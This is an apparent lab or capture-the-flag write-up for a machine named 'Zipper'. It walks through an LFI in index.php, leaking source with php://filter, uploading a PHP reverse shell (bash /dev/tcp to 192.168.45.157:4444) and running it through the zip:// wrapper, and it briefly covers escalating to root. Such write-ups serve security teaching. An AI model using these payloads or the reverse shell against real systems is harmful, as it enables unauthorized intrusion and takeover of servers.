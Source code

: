 # Zipper - Writeup

## Initial Enumeration

### Port Scanning
A comprehensive port scan revealed several open services:
```
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH (Unknown version)
25/tcp  open  smtp     Postfix SMTP service
80/tcp  open  http     Apache httpd
443/tcp open  https    Apache httpd (SSL/TLS)
```

### System Information
Target information gathered from post-exploitation:
```
Linux zipper 5.4.0-90-generic #101-Ubuntu SMP Fri Oct 15 20:00:55 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

### Web Enumeration
The website appeared to be a custom ZIP archiving utility that allowed users to upload multiple files and compress them into a ZIP archive. Directory scanning with feroxbuster and wfuzz revealed standard web directories.

## Gaining Initial Access

### LFI Discovery
During web enumeration, I discovered a potential Local File Inclusion (LFI) vulnerability in the application:
```
http://192.168.162.229/index.php?file=
```

Testing the parameter revealed several important characteristics:
- Regular LFI attempts did not return any content
- Including "index" caused a 500 error, indicating an include operation was occurring
- The URL `http://192.168.162.229/index.php?file=home` returned the home.php page
- This suggested that the `.php` extension was being automatically appended to the file parameter

### Source Code Analysis
Using PHP filter techniques, I was able to extract the source code of key application files:
```
http://192.168.162.229/index.php?file=php://filter/convert.base64-encode/resource=upload
```

After decoding the base64 output, I discovered interesting functionality in `upload.php`:

```php
<?php
if ($_FILES && $_FILES['img']) {
    
    if (!empty($_FILES['img']['name'][0])) {
        
        $zip = new ZipArchive();
        $zip_name = getcwd() . "/uploads/upload_" . time() . ".zip";
        
        // Create a zip target
        if ($zip->open($zip_name, ZipArchive::CREATE) !== TRUE) {
            $error .= "Sorry ZIP creation is not working currently.<br/>";
        }
        
        $imageCount = count($_FILES['img']['name']);
        for($i=0;$i<$imageCount;$i++) {
        
            if ($_FILES['img']['tmp_name'][$i] == '') {
                continue;
            }
            $newname = date('YmdHis', time()) . mt_rand() . '.tmp';
            
            // Moving files to zip.
            $zip->addFromString($_FILES['img']['name'][$i], file_get_contents($_FILES['img']['tmp_name'][$i]));
            
            // moving files to the target folder.
            move_uploaded_file($_FILES['img']['tmp_name'][$i], './uploads/' . $newname);
        }
        $zip->close();
        
        // Create HTML Link option to download zip
        $success = basename($zip_name);
    } else {
        $error = '<strong>Error!! </strong> Please select a file.';
    }
}
```

Key observations from the code:
1. No file extension validation was being performed
2. Files were being uploaded to the `/uploads` directory
3. Each upload was also being compressed into a timestamped ZIP file

### PHP Reverse Shell Upload
Since there were no restrictions on file extensions, I created a PHP reverse shell (`shell.php`) with the following content:
```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.157/4444 0>&1'");
?>
```

I uploaded this file through the web interface which:
1. Stored the PHP file in the `/uploads` directory
2. Added the file to a ZIP archive (e.g., `upload_1733933598.zip`)

### Shell Execution via ZIP Wrapper
To execute the PHP code, I leveraged PHP's ZIP wrapper functionality along with the LFI vulnerability:
```
http://192.168.162.229/index.php?file=zip:///var/www/html/uploads/upload_1733933598.zip%23shell
```

The URL breaks down as follows:
- `zip://` - PHP's ZIP wrapper protocol
- `/var/www/html/uploads/upload_1733933598.zip` - Path to the uploaded ZIP file
- `%23shell` - URL-encoded `#` followed by the filename inside the ZIP (without extension)

With a netcat listener ready on port 4444, this request executed my reverse shell and provided initial access as the `www-data` user.

## Privilege Escalation

### Lateral Movement to marcot
After gaining initial access as `www-data`, I ran enumeration scripts including linpeas and linenum to identify potential privilege escalation vectors.

I discovered a git repository with SSH keys belonging to user `marcot`. Although the SSH key didn't work directly with any of the users, I was able to leverage information found in the repository to gain access as `marcot` through password spraying.

### Lateral Movement to matthewa
From the `marcot` user, I continued enumeration and discovered credentials that allowed me to switch to the `matthewa` user.

### Root Access
Using the process monitoring tool `pspy`, I observed a process revealing what appeared to be the root password. With this password, I was able to gain root access with `su root` and successfully complete the challenge.

